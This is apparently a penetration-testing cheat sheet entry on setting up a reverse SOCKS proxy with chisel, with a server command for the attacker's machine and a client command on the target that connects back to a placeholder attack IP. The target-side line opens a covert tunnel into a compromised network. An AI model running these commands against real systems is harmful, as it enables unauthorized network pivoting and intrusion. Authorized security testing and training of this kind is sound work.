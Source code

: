 <br />

## Reverse SOCKS Proxy

In your local machine,

```sh
chisel server -p <listen-port> --reverse &
```

In the target machine,

```sh
chisel client <attack-ip>:<listen-port> R:socks &
```

To stop connections,

```sh
jobs
kill %<NUMBER>
```